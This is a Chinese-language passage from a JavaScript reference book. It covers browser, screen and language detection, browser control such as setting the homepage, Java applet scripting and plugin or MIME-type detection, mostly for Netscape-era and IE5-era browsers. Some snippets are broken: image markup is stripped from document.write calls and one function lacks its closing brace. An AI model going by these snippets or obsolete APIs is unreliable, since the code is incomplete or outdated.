</script>

</body>

</html>
```

该示例的渲染效果如下所示。


这种检测中有一个相当麻烦的问题，那就是**availHeight**和**availWidth**属性表示的是屏幕的高度和宽度减去任何操作系统界面元素后的尺寸，而不是人们可能预期的可用浏览器窗口的实际大小。要检测实际的窗口大小，对于 Netscape 来说，必须使用**Window**对象的属性；对于 Internet Explorer 来说，则需要查看**Document**对象并检查**body**本身。然而，对于 DOM 来说，如果你想获取窗口的尺寸，可能需要查看根元素的大小，即**<html>**标签，而不是**<body>**。当然，应该查看哪个标签取决于浏览器所处的渲染模式，是松散模式还是严格模式，这通常由文档中的**doctype**声明决定。以下示例展示了如何检查所有这些内容。鉴于浏览器厂商在如何实现某些 CSS、XHTML 和 JavaScript 概念方面缺乏共识，某些内容可能会发生变化，但该示例仍然可以说明这一概念：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

```
<html xmlns="http://www.w3.org/1999/xhtml">
```

```
<head>
```

```
<title>Available Region Checker</title>
```

```
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
```

```
</head>
```

```
<body>
```

```
<h2 align="center">Resize your browser window</h2>
```

```
<hr />
```

```
<form action="#" method="get" name="form1" id="form1">
```

```
Available Height: <input type="text" name="availHeight" size="4" /><br />
```

```
Available Width: <input type="text" name="availWidth" size="4" /><br />
```

```
</form>
```

```
<script type="text/javascript">
```

```
<!--
```

```
var winWidth = 0;
```

```
var winHeight = 0;
```

```
function findDimensions()
```

```
{
```

```
if (window.innerWidth)
```

```
winWidth = window.innerWidth;
```

```
else if ((document.body) && (document.body.clientWidth))
```

```
winWidth = document.body.clientWidth;
```

```
if (window.innerHeight)
```

```
winHeight = window.innerHeight;
```

```
else if ((document.body) && (document.body.clientHeight))
```

```
winHeight = document.body.clientHeight;
```

```
/* nasty hack to deal with doctype switch in IE */

if (document.documentElement  && document.documentElement.clientHeight &&
document.documentElement.clientWidth)
{
    winHeight = document.documentElement.clientHeight;
    winWidth = document.documentElement.clientWidth;
}

document.form1.availHeight.value= winHeight;
document.form1.availWidth.value= winWidth;

findDimensions();
window.onresize=findDimensions;
//-->
</script>

</body>

</html>
```

该示例的渲染效果如下所示：


在允许运行时操作页面内容和样式的浏览器中，我们可以根据当前窗口大小来设置屏幕对象（如字体）的大小。考虑以下示例，它在 Internet Explorer 5 和 Netscape 6 或更高版本中有效。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Dynamic Sizing</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
```

```
<h1 id="test1" style="font-family: verdana; text-align: center;">Text grows and shrinks!</h1>
```

```
<script type="text/javascript">
<!--
function setSize()
{
  if (document.getElementById)
  {
    theHeading = document.getElementById("test1");
    if (window.innerWidth)
      theHeading.style.fontSize = (window.innerWidth / 13)+"px";
    else if ((document.body) && (document.body.clientWidth))
      theHeading.style.fontSize = (document.body.clientWidth / 13)+"px";
  }
}
window.onload = setSize;       // call to set initial size;
window.onresize = setSize;
// -->
</script>
</body>
</html>
```

典型的渲染效果如下所示，但鼓励读者自行尝试此示例以验证其实用性。


对于像 Internet Explorer 这样支持 CSS 规则中表达式的浏览器，我们可以使用更简洁的方式，如下所示：<h1 style="font-family: verdana; text-align: center;

```
font-size: expression(document.body.clientWidth / 13)">
Internet Explorer Font Sizing!</h1>
```

**注意** *也许更好的做法是避免使用 JavaScript 来调整 CSS 中对象的大小，而是依靠相对大小度量，如百分比或 **em** 值。*

除了大小调整之外，我们还可以使用 JavaScript 动态处理网页上的颜色问题。例如，许多设计师仍然使用限制为 216 色调色板的低色彩图像，即所谓的"浏览器安全"调色板，尽管在许多情况下他们可能可以使用更丰富的图像。以下代码可用于根据条件插入不同类型的图像：

```
<script type="text/javascript">
<!--
 if (window.screen)
 {
                              // Sense the bit depth...
  if (screen.colorDepth > 8)
    document.writeln('');
  else
    document.writeln('');
 }
else
  document.writeln('');
// -->
</script>
<!-- Deal with the script off or non-JS aware browsers -->
<noscript>
  
</noscript>
```

### 语言检测

基本检测的最后一种形式是使用 JavaScript 来感知用户浏览器设置为支持的语言。我们可以使用它来将用户发送到西班牙语页面，如果他们在浏览器中将西班牙语设置为首选语言。浏览器以略有不同的方式提供对此信息的访问。Netscape 和 Opera 使用 **window.navigator.language** 属性，而 Internet Explorer 则依赖 window.navigator.userLanguage 或 window.navigator.systemLanguage。对于 Internet Explorer 来说，关于应该关注操作系统语言还是浏览器语言，存在一些不明确的地方。一个合理的猜测是关注浏览器的语言——而且最好在页面上提供链接以选择其他语言，以防检测不正确。以下简单示例说明了这些属性的用法，并且可以很容易地使用 Location 对象进行扩展，在检测后将用户重定向到特定语言的页面。

```
var lang = "en-us";
if (window.navigator.language)
```

```
lang = window.navigator.language

else if (window.navigator.userLanguage)

  lang = window.navigator.userLanguage

if (lang == "es")

  document.write("Hola amigo!");

else

  document.write("Hi friend!");
```

**注意** 关于 JavaScript 中可用的语言信息的准确性存在一些担忧，一些开发人员建议同时查看用户代理字符串，看看其中是否指定了任何内容。

### 高级检测技术

还有许多其他技巧可用于浏览器检测。例如，我们可以通过向用户传输一定量的数据并计算传输时间来计算相对下载速度。我们还可能会发现将我们自己的属性添加到 **Navigator** 对象中是很有用的，这样可以保持一切整洁有序。微软也尽了自己的一份力来推广改进的浏览器检测，使用了其客户端功能设施，这将在下面讨论。

### Microsoft 客户端功能

微软在 Internet Explorer 5 中使用默认行为引入了客户端功能检测。我们将在第 21 章讨论行为，但现在先看一下这里的简单示例；它演示了 Explorer 的客户端功能检测，该检测可以检测许多有用的属性，包括连接速度。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xmlns:ie>
<head>
<title>IE Specific Browser Detect</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<style>
<!--
@media all { IE\:clientCaps {behavior:url(#default#clientCaps)}
}
-->
</style>
</head>
<body>
<ie:clientcaps id="oClientCaps" />
<script type="text/jscript">
<!--
document.write("<h2>Screen Capabilities</h2>");
document.write("Screen Height: " + oClientCaps.height + "<br />");
document.write("Screen Width: " + oClientCaps.width + "<br />");
document.write("Available Height: " + oClientCaps.availHeight + "<br />");
```


### 浏览器控制

一旦我们掌握了检测访问者浏览器及其各种特性的方法，我们可能会有兴趣尝试控制这些浏览器。使用在第12章中讨论的 **Window** 对象，我们当然可以更改窗口外观。例如，我们可以使用 **window.scrollTo()** 或 **window.resizeTo()** 来滚动或调整窗口大小，或者使用 **window.status** 或 **window.defaultStatus** 来设置浏览器状态消息。为了获得更多控制，我们可以考虑打开一个新窗口（**window.open**）并移除浏览器的边框，甚至进入全屏模式。我们甚至可以使用 **window.location** 将用户发送到另一个页面，或者使用超时和间隔（**window.setTimeout** 和 **window.setInterval**）在设定时刻执行活动。然而，在某些情况下，我们甚至可以利用 Netscape 和 Internet Explorer 中 JavaScript 的专有特性来超越这些可能性。

#### 模拟浏览器按钮点击

Netscape 和 Opera 支持许多方法，允许开发者模拟各种浏览器活动，例如点击特定按钮。Internet Explorer 并不支持很多这些浏览器控制方法，但它确实支持可能最有用的一个方法，即 **window.print()**，它可以触发页面打印。对于 Internet Explorer 用户，我们可以使用对象检测来制作一个至少不会抛出错误的示例：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Browser Button Simulator</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h1 align="center">Button Simulator</h1>

<hr />

<form action="#" method="get">

<input type="button" value="PRINT" onclick="if (window.print) window.print();" />

<br /><br />

<input type="button" value="FORWARD" onclick="if (window.forward)
window.forward();" />

<br /><br />

<input type="button" value="BACK" onclick="if (window.back) window.back();" />

<br /><br />

<input type="button" value="HOME" onclick="if (window.home) window.home();" />

<br /><br />

<input type="button" value="STOP" onclick="if (window.stop) window.stop();" />

</form>

</body>

</html>
```

既然某些按钮可以被模拟，你可能会想知道是否有可能控制用户浏览器的其他方面，例如他们的偏好设置。下一节将介绍这个想法，尝试使用 JavaScript 设置用户的默认主页。

#### 偏好设置：指定主页

执行可能影响用户浏览器设置的操作可能是有风险的，而且每个浏览器对此问题的处理方式都不同。有些干脆直接禁止，有些需要权限，还有一些会提示用户。例如，在 Netscape 中，你必须请求权限才能读取和写入用户浏览器偏好的值。看看这个简单的示例，了解如何设置用户的主页：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Navigator Preference Tester</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function setHomePage()
{
  if ((window.netscape) && (window.netscape.security))
  {
    netscape.security.PrivilegeManager.enablePrivilege('UniversalPreferencesRead');
    var home = navigator.preference('browser.startup.homepage');
    if (home != 'http://www.pint.com/')
    {
      netscape.security.PrivilegeManager.enablePrivilege('UniversalPreferencesWrite');
      navigator.preference('browser.startup.homepage','http://www.pint.com/');
    }
  }
}

// -->
</script>
</head>
<body>
<form action="#" method="get">
<input type="button" value="Set Home Page Preference" onclick="setHomePage();" />
</form>
</body>
</html>
```

鉴于设置偏好涉及的危险，当你从 Netscape 访问权限管理器时，应该会看到类似这里所示的对话框。

Internet Explorer 使用一种非常不同的方法来访问浏览器偏好，如主页设置。在 5.x 及更高版本中，你可以使用默认的 JavaScript 行为来设置主页：

```html
<a href="#"
onclick="HomePage = 'http://www.pint.com';
this.style.behavior='url(#default#homepage)';this.setHomePage(HomePage);
return false">Set PINT to your home page</a>
```

幸运的是，与 Netscape 一样，系统会提示你是否要执行此操作，因此恶意网站无法在你不知情的情况下强行更改你的当前设置。

还有类似的技术可用于设置用户的书签和其他偏好，但设计师在采取如此极端的控制措施之前应该三思，因为这会影响用户的浏览体验。

### 小结

JavaScript 的 **Navigator** 对象指示了访问页面的浏览器类型及其许多特性。通过使用 **Navigator** 对象、**Screen** 对象以及一些其他的 **Window** 和 **Document** 属性，我们应该能够检测到几乎所有我们想要控制的内容，包括：技术使用情况、屏幕属性和用户偏好。然后，使用 JavaScript，我们可以输出适当的页面标记或使用 **Location** 对象将用户重定向到另一个页面。还可以模拟一些浏览器功能，如按钮点击或偏好更改，但需要考虑潜在的安全问题。虽然浏览器检测和控制技术可能非常有用，但在网站中使用它们也需要大量的技巧。开发人员应确保在将这些方法移至生产网站之前进行充分的测试。


 ## 第五部分：高级主题

## 章节列表

- 第18章：JavaScript 与嵌入式对象
- 第19章：远程 JavaScript
- 第20章：JavaScript 与 XML

## 第18章：JavaScript 与嵌入式对象

### 概述

现代浏览器支持许多超越 (X)HTML、CSS 和 JavaScript 的技术。各种额外的功能以浏览器插件、ActiveX 控件和 Java 小程序的形式提供。这些技术提供了扩展功能，可以使网页看起来更像应用程序，而不是标记文本。嵌入式对象为 JavaScript 等脚本语言有限的能力提供了自然的补充。

嵌入式对象有多种形式，但最受欢迎的是多媒体性质的。一个很好的例子是 Macromedia Flash 文件，它允许设计人员向网站添加高级矢量图形和动画。各种其他类型的嵌入式视频、声音和实时音频也很受欢迎。嵌入式 Java 小程序通常被包含在需要更高级图形、网络或处理功能的页面中。

浏览器提供了促进 JavaScript 和嵌入式对象之间通信的桥梁。这种通信的进行方式本质上是非标准化的，尽管浏览器供应商遵循他们自己的临时"标准"，这些标准已被广泛使用。即使如此，处理嵌入式对象时仍有诸多顾虑。首先，包含它们的前提假设是用户的浏览器具有处理此类对象的能力。其次，即使用户确实安装了合适的扩展程序，许多用户仍然觉得嵌入式对象很烦人，因为它们增加了下载时间，而只偶尔改善网站的整体效用。第三，使用旧浏览器的用户以及非 Windows 平台上的用户通常无法使用嵌入式对象，因为缺乏支持。

本章介绍了 JavaScript 可用于与大多数主流浏览器中的嵌入式对象进行交互的方式。对象与 JavaScript 的复杂集成需要更全面的信息，这些信息可以在浏览器和插件供应商网站上找到。

### Java

许多人认为 JavaScript 是 Java 的简化形式，因为它们的名称相似。JavaScript 最初被称为"LiveScript"这一事实表明，得出这样的结论是错误的。虽然 Java 和 JavaScript 都是面向对象的语言，它们都常用于 Web 上，而且两者的语法都类似于 C 的语法，但它们实际上是非常不同的语言。Java 是基于类的面向对象语言，而 JavaScript 是基于原型的。Java 是强类型的，而 JavaScript 是弱类型的。Java 在执行前被编译为与平台无关的字节码，而 JavaScript 源代码通常由浏览器直接解释执行。Java 程序在称为"沙箱"的独立上下文中执行，而 JavaScript 在浏览器的上下文中解释。

最后一个差异——执行上下文——非常重要。Java 小程序几乎是与平台无关的独立程序，设计为在受限的执行环境中运行。Java 沙箱背后有很多理论，但本质上小程序运行在 somewhat 与用户浏览器和操作系统隔离的"虚拟机"中。这种隔离旨在保持平台独立性以及客户端机器的安全性。

Java 小程序最常用于实现需要全面图形功能和网络功能的应用程序。安装在客户端机器上的 Java 包提供网络代码、图形库和用户界面例程，通常使其在某些任务上比 JavaScript 功能更强大。常见应用包括显示从 Web 下载的实时数据的小程序（例如股票行情）、交互式数据浏览工具、网站导航增强功能、游戏以及执行计算或作为可视化工具的科学工具。

#### 包含小程序

在深入探讨小程序交互的细节之前，有必要简要回顾一下如何在页面中包含小程序。传统上，小程序使用 `<applet>` 标签包含。然后设置标签的 **code** 属性为包含小程序的 .class 文件的 URL，**height** 和 **width** 属性指示小程序的输入和输出被限制到的矩形形状；例如：

```
<applet code="myhelloworld.class" width="400" height="100"
 name="myhelloworld" id="myhelloworld">
<em>Your browser does not support Java!</em>
</applet>
```

注意 `<applet>` 标签的 **name** 属性（以及 **id** 属性）也被设置了。这样做为小程序分配了一个方便的手柄，JavaScript 可以使用它来访问其内部。

虽然 `<applet>` 的使用很广泛，但它已在 HTML 4 和 XHTML 中被弃用。更合适的是 `<object>` 标签。它有类似的语法：

```
<object classid="java:myhelloworld.class" width="400" height="100"
 name="myhelloworld" id="myhelloworld">
<em>Your browser does not support Java!</em>
</object>
```

> **注意** 使用 `<object>` 语法包含小程序存在一些问题，其中最小的是在旧浏览器中缺乏支持。我们将使用 `<applet>` 语法，但你应该知道，从标准角度来看，尽可能使用 `<object>` 是更优的。

初始参数可以使用 `<param>` 标签包含在 `<applet>` 或 `<object>` 标签内部，如下所示：

```
<applet code="myhelloworld.class" width="400" height="100"
 name="myhelloworld" id="myhelloworld">
<param name="message" value="Hello world from an initial parameter!" />
<em>Your browser does not support Java!</em>
</applet>
```

#### Java 检测

在尝试从 JavaScript 操纵小程序之前，你必须首先确定用户的浏览器是否启用了 Java。虽然当 Java 关闭或不可用时，`<applet>` 标签的内容会显示给用户，但你仍然需要编写 JavaScript，以避免尝试与未运行的小程序进行交互。

**Navigator** 对象的 **javaEnabled()** 方法返回一个布尔值，指示用户是否启用了 Java。此方法最初在 IE4 和 Netscape 3 中提供，这些是第一个支持 JavaScript 与 Java 小程序交互的浏览器版本。使用带有此方法的简单 **if** 语句应提供最基本的 Java 检测，如下所示确实非常重要：

```
if ( navigator.javaEnabled() )
{
 // do Java related tasks
}
else
 alert("Java is off");
```

一旦确定了 Java 的支持情况，就可以使用 JavaScript 与包含的小程序进行交互。

#### 在 JavaScript 中访问小程序

与小程序通信的能力起源于一项名为 LiveConnect 的 Netscape 技术，该技术内置于 Netscape 3 中。这项技术允许 JavaScript、Java 和插件以 coherent 的方式交互，并自动处理数据类型转换，使其适用于每种语言。Microsoft 在 IE4 中实现了相同的功能，但不以 LiveConnect 命名。嵌入式对象和 JavaScript 交互的低层细节很复杂，每种浏览器都独一无二，甚至同一浏览器的不同版本之间也存在差异。重要的是，无论它被称为什么，这种能力存在于 IE4+（Macintosh 除外）和 Netscape 3+（尽管早期版本的 Netscape 6 存在一些问题）以及基于 Mozilla 的浏览器中。

可以通过 **Document** 对象的 **applets[]** 数组或通过 **Document** 直接使用小程序的名称来访问小程序。考虑以下 HTML：

```
<applet code="myhelloworld.class" width="400" height="100"
 name="myhelloworld" id="myhelloworld">
<em>Your browser does not support Java!</em>
</applet>
```

假设此小程序是文档中定义的第一个，可以通过以下所有方式访问它，最后一种方式是首选的：

```
document.applets[0]
// or
```


```
document.applets["myhelloworld"]

// 或者更推荐的访问方式

document.myhelloworld
```

一个 **Applet** 对象的 JavaScript 属性（主要定义在浏览器对象模型中，后来由 DOM 定义）列在[附录 B](Appendix B)中，包含了一系列意料之中的信息集合，这些信息反映了为其定义的 (X)HTML **<applet>** 标签的属性。与 JavaScript-Java 通信讨论相关的方面是这样一个事实：applet 类的所有被声明为 **public** 的属性和方法，都可以通过 **Applet** 对象来访问。考虑以下针对前面 **myhelloworld** 示例的 Java 类定义。其输出（如之前嵌入时一样）如[图 18-1](Figure 18-1)所示。


**图 18-1：** **myhelloworld** applet 在 Internet Explorer 中的输出

```
import java.applet.Applet;

import java.awt.Graphics;

public class myhelloworld extends Applet

{

    String message;

    public void init()

    {

        message = new String("Hello browser world from Java!");

    }

    public void paint(Graphics myScreen)

    {

        myScreen.drawString(message, 25, 25);

    }

    public void setMessage(String newMessage)

    {
        message = newMessage;
        repaint();
    }
}
```

现在来看有趣的部分。因为 **myhelloworld** 类的 **setMessage()** 方法被声明为 **public**，所以它可以在相应的 **Applet** 对象中使用。我们可以在 JavaScript 中这样调用它：

```
document.myhelloworld.setMessage("Wow. Check out this new message!");
```

在继续这个示例之前，非常重要的一点是要注意，applet 通常需要大量的加载时间。浏览器不仅必须下载所需的代码，还必须启动 Java 虚拟机并让 applet 经历几个初始化阶段，为执行做好准备。因此，在确保 applet 已开始执行之前，使用 JavaScript 访问它绝不是一个好主意。最好的方法是使用 **Document** 对象的 **onload** 处理程序来表明 applet 已加载完毕。因为这个处理程序仅在文档完成加载后才触发，所以你可以用它来设置一个标志，表明 applet 已准备好进行交互。以下示例使用了前面定义的 **myhelloworld** applet 来说明这种技术：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Applet Interaction Example</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
</head>
<script type="text/javascript">
<!--
var appletReady = false;
function changeMessage(newMessage) {
    if (!navigator.javaEnabled()) {
        alert("Sorry! Java isn't enabled!");
        return;
    }

    if (appletReady)
        document.myhelloworld.setMessage(newMessage);
    else
        alert("Sorry! The applet hasn't finished loading");
}

// -->
</script>
<body onload="appletReady = true;">
<applet code="myhelloworld.class" width="400" height="100" name="myhelloworld" id="myhelloworld">
<em>Your browser does not support Java!</em>
</applet>
<form action="#" method="get" onsubmit="return false;" name="inputForm" id="inputForm">
<input type="text" name="message" id="message" />
<input type="button" value="Change Message" onclick="changeMessage(document.inputForm.message.value);" />
</form>
</body>
</html>
```

此脚本在更改消息后的输出如图 18-2 所示。


**图 18-2：** JavaScript 可以调用 Java applet 的 **public** 方法。

这种能力带来了巨大的可能性。如果类的实例变量被声明为 **public**，它们就可以像你期望的那样被设置或检索：

`document.appletName.variableName`

继承的变量当然也可以访问。

> **注意** *与在 <object> 标签中定义的 applet 关联的 Java applet，接收 **public** 属性和方法的方式与那些在 <applet> 标签中定义的 applet 相同。然而，使用 <object> 而不是 <applet> 可能跨浏览器兼容性较差，因为 Netscape 4 不会将此 HTML 元素暴露给脚本。*

##### 使用 JavaScript 驱动 Applet 的问题

有经验的程序员可能会问，为什么有人会选择在页面中将 Java applet 与 JavaScript 一起嵌入。一个原因可能是为了避免用 JavaScript 重新实现 Java 中现成的代码。另一个原因是，许多人觉得用 (X)HTML/CSS 编写的用户界面比用 Java 编写的更容易实现（尽管有些人持相反意见！）。使用基于 Web 的界面来驱动嵌入式 applet 的一个主要好处是，界面的更改可以在不重新编译 Java 代码的麻烦下完成。

###### 发现接口

许多新程序员想知道如何找出特定 applet 提供了哪些“钩子”。一个简单的方法是检查与 applet 关联的源代码（.java 文件）。如果源代码不可用，你可以在相应的 **Applet** 对象上使用 **for/in** 循环来打印其属性。任何通常不是 **Applet** 浏览器对象属性的东西，都是 applet 类定义的接口的一部分。然而，不鼓励使用这种方法，因为它不会给你提供关于 applet 方法期望的参数类型的任何信息。通常，除非你确切知道暴露的接口应该如何使用，否则从 JavaScript 驱动 applet 并不是一个好主意。

### 类型转换

方法参数中的类型转换问题对 JavaScript 驱动的 applet 有严重影响。虽然大多数基本的 JavaScript 类型可以轻松转换为其 Java 对应类型，但转换复杂对象可能会有问题。如果你需要将用户定义的或非平凡的浏览器对象传递给 applet，则需要仔细检查每个浏览器的类型转换规则。一个可行的选项是在将 JavaScript 对象传递给 applet 之前将其转换为字符串。然后，applet 可以手动从字符串重建对象。一个更好的选项可能是使用下一节中提到的 Java 类直接检索对象。

###### 安全

最后一个问题是，大多数浏览器的安全模型会阻止 applet 执行 JavaScript 请求的操作，而该操作如果是脚本自身则无法执行。当考虑到 Java（理论上）旨在保护用户免受恶意代码的侵害时，这是有道理的。对 JavaScript 驱动的 applet 所施加的限制进行实验，会发现不同浏览器和版本之间的安全策略不一致。

#### 使用 Applet 访问 JavaScript

尽管这可能令人惊讶，但 Java applet 驱动 JavaScript 是可能的。Internet Explorer、Netscape 和基于 Mozilla 的浏览器能够使用 **netscape** Java 包，该包定义了一系列用于 JavaScript 交互的类库。特别是，JSObject 类（**netscape.javascript.JSObject**）允许 applet 检索和操作当前页面中的 JavaScript 对象。此外，它还使 applet 能够在浏览器窗口中执行任意的 JavaScript，就像它是页面的一部分一样。

在 (X)HTML 方面，启用此功能只需要在相关 **<applet>** 标签中添加 **mayscript** 属性。**mayscript** 属性是一个非标准的安全特性，用于防止恶意 applet 修改它们所在的文档。省略此属性（理论上）可以防止 applet 跨越进入“浏览器空间”，尽管浏览器的执行情况参差不齐。

虽然这是一种强大的功能，但 Java 驱动的 JavaScript 在实践中很少使用。有关这些类的详细信息可以在特定浏览器的 Java 文档中找到。


 ## 插件

浏览器*插件*是以特定方式扩展浏览器功能的可执行组件。当浏览器遇到其无法处理的嵌入式对象类型（例如，非 HTML 或其他 Web 文件类型的内容）时，浏览器可能会将该内容转交给相应的插件处理。如果没有安装合适的插件，用户将被提示安装一个（前提是页面编写正确）。插件由用于显示或以其他方式处理特定类型数据的可执行代码组成。通过这种方式，浏览器能够将特殊类型的数据（例如多媒体文件）交给插件进行处理。

插件在浏览器中具有持久性，即一旦安装，它们就会一直存在，除非用户手动移除。大多数浏览器已经预装了许多插件，因此您可能在不知情的情况下就使用过它们。插件最初在 Netscape 2 中引入，但大多数主流浏览器（包括 Opera 和 Internet Explorer 3 及更高版本）都支持它，至少在 HTML 语法层面上如此。不过，在 Internet Explorer 的情况下，实际的组件并非插件，而是本章稍后讨论的 ActiveX 控件。插件是一项由 Netscape 引入的技术，得到了许多其他浏览器的支持。

### 为插件嵌入内容

尽管 **\<embed>** 标签从未正式成为任何 HTML 规范的一部分，但它最常用于在 Netscape 和 Internet Explorer 中包含嵌入式对象。Macromedia Flash 文件可以如下方式嵌入：

```
<embed id="demo" name="demo"
src="http://www.javascriptref.com/examples/ch18/flash.swf"
width="318" height="252" play="true" loop="false"
pluginspage="http://www.macromedia.com/go/getflashplayer"
swliveconnect="true"></embed>
```

加载包含此文件的页面后的效果如图 18-3 所示。

图 18-3：嵌入的 Flash 文件

\<embed> 标签最重要的属性是 src（给出嵌入对象的 URL）和 pluginspage（指示浏览器在未安装所需插件时到哪里获取）。插件供应商通常会提供嵌入语法，因此请查阅其网站以获取 pluginspage 的值。

回顾一下，通过 \<object> 标签嵌入的小程序是通过 \<param> 标签传递初始参数的。\<embed> 的语法不同之处在于，初始参数是通过元素本身的属性传递的。例如，在前面的示例中，play 属性告诉插件立即开始播放指定的文件。

\<object> 元素是在页面中包含任何类型嵌入式对象的较新的、官方方式。然而，Netscape 4 之前的浏览器不支持 \<object>，而新版本的浏览器仍然支持 \<embed>。因此，在不久的将来 \<object> 不太可能完全取代 \<object>。不过，为了最大化客户端兼容性，\<object> 和 \<embed> 经常一起使用。本章后面的 ActiveX 部分将说明这一技术。

#### MIME 类型

那么浏览器如何知道哪种数据适合哪个插件呢？答案在于多用途互联网邮件扩展类型，简称 MIME 类型。MIME 类型是 mediatype/subtype 形式的短字符串，其中 mediatype 描述数据的一般性质，subtype 进行更具体的描述。例如，GIF 图像的类型是 image/gif，表示数据是图像，其特定格式为 GIF（图形交换格式）。相比之下，CSS 文件的类型是 text/css，表示该文件由遵循 CSS 规范的纯文本组成。MIME 主要媒体类型包括 application（某些应用程序使用的专有数据格式）、audio、image、message、model、multipart、text 和 video。

每种媒体类型在浏览器中最多关联一个处理程序。常见的 Web 媒体（如 (X)HTML、CSS、纯文本和图像）由浏览器自身处理。其他媒体（例如 MPEG 视频和 Macromedia Flash）则与相应的插件关联（如果已安装）。请记住，一个插件可以处理多种 MIME 类型（例如不同类型的视频），但每种 MIME 类型最多与一个插件关联。如果一种类型与多个插件关联，浏览器就必须找到某种方式来仲裁哪个组件实际接收数据。

#### 检测对 MIME 类型的支持

Netscape 3+、Opera 4+ 和基于 Mozilla 的浏览器提供了一种简便的方式来检查浏览器处理特定 MIME 类型的能力。**Navigator** 对象的 **mimeTypes[]** 属性保存了一个 **MimeType** 对象的数组。该对象的一些重要属性如**表 18-1** 所示。

**表 18-1：MimeType 对象的属性**

| 属性 | 描述 |
|---|---|
| description | 描述 MIME 类型关联的数据类型的字符串 |
| enabledPlugin | 与此 MIME 类型关联的插件的引用 |
| suffixes | 包含与此 MIME 类型关联的文件后缀名的字符串数组 |
| type | 包含 MIME 类型的字符串 |

浏览器根据构成每个嵌入式对象的数据将其转交给插件处理。理解这一过程的一个好方法是：浏览器在 **mimeTypes** 数组中查找 MIME 类型和文件后缀名，以找到指向相应插件的 **enabledPlugin** 引用。因此，程序员可以使用 **mimeTypes** 数组来检查浏览器是否能够处理特定类型的数据。

在深入研究这一过程之前，了解您的 Netscape 浏览器支持哪些 MIME 类型可能会很有启发性。以下代码会打印出 **mimeTypes[]** 数组的内容。

```
if (navigator.mimeTypes)
{
    document.write("<table><tr><th>Type</th>");
    document.write("<th>Suffixes</th><th>Description</th></tr>");
    for (var i=0; i<navigator.mimeTypes.length; i++)
    {
        document.write("<tr><td>" + navigator.mimeTypes[i].type + "</td>");
        document.write("<td>" + navigator.mimeTypes[i].suffixes + "</td>");
        document.write("<td>" + navigator.mimeTypes[i].description + "</td></tr>");
    }
    document.write("</table>");
}
```

在典型安装的基于 Mozilla 的浏览器中，部分结果如**图 18-4** 所示。当然，您也可以通过在 Netscape 和基于 Mozilla 的浏览器的地址栏中输入 **about:plugins** 来访问类似信息。

图 18-4：Mozilla 中 **mimeTypes[]** 数组的内容

要检测对特定数据类型的支持，首先通过您感兴趣的 MIME 类型字符串访问 **mimeTypes[]** 数组。如果所需的类型存在 MimeType 对象，则通过检查 **MimeType** 对象的 **enabledPlugin** 属性来确认插件是否可用。以下代码说明了这一概念：

```
if (navigator.mimeTypes
    && navigator.mimeTypes["video/mpeg"]
    && navigator.mimeTypes["video/mpeg"].enabledPlugin)
    document.write('<embed src="/movies/mymovie.mpeg" width="300"' +
                   ' height="200"></embed>');
else
    document.write('' );

如果用户的浏览器具有 **mimeTypes[]** 数组且支持 MPEG 视频（*video/mpeg*）并且插件已启用，则会将嵌入式 MPEG 视频文件写入文档。如果这些条件不满足，则会在页面中写入一个简单的图像。注意，此处省略了 **pluginspage** 属性以简化代码，因为代码已经检测到已安装合适的插件。

这种 MIME 类型检测技术适用于您只关心浏览器是否支持某种特定类型数据的情况。它无法保证将由哪个特定插件来处理该数据。要利用插件提供的一些更高级功能，您通常需要知道是否正在使用特定供应商的插件。这需要一种不同的方法。

#### 检测特定插件

在 Netscape 3+、Opera 4+ 和基于 Mozilla 的浏览器中，浏览器中安装的每个插件都在 **Navigator** 对象的 **plugins[]** 数组中有一个条目。该数组中的每个条目都是一个 **Plugin** 对象，包含有关所安装组件的特定供应商和版本的信息。**Plugin** 对象的一些重要属性列于表 18-2。

**表 18-2：Plugin 对象的一些重要属性**

| 属性 | 描述 |
| --- | --- |
| **description** | 描述插件性质的字符串。使用此属性时需谨慎，因为该字符串可能相当长。 |
| **name** | 表示插件名称的字符串。 |
| **length** | 表示此插件当前支持的 MIME 类型数量的数字。 |

每个 **Plugin** 对象都是其支持的 **MimeType** 对象的数组（因此有 **length** 属性）。您可以将 **plugins[]** 和 **mimeTypes[]** 数组可视化为交叉关联的关系。**plugins[]** 中的每个元素都是一个包含对 **mimeTypes[]** 中一个或多个元素的引用的数组。**mimeTypes[]** 中的每个元素都是一个对象，恰好被 **plugins[]** 中的一个元素引用，即被 **MimeType** 的 **enabledPlugin** 引用所指向的元素。

您可以使用双数组表示法引用 **Plugin** 元素中的各个 **MimeType** 对象：

```
navigator.plugins[0][2]
```

此示例引用第一个插件支持的第三个 **MimeType** 对象。

更实用的方式是按名称索引插件。例如，要写出 Flash 插件支持的所有 MIME 类型（如果它存在的话），您可以这样编写：

```
if (navigator.plugins["Shockwave Flash"])
{
    for (var i=0; i<navigator.plugins["Shockwave Flash"].length; i++)
        document.write("Flash MimeType: " +
                        navigator.plugins["Shockwave Flash"][i].type + "<br />");
}
```

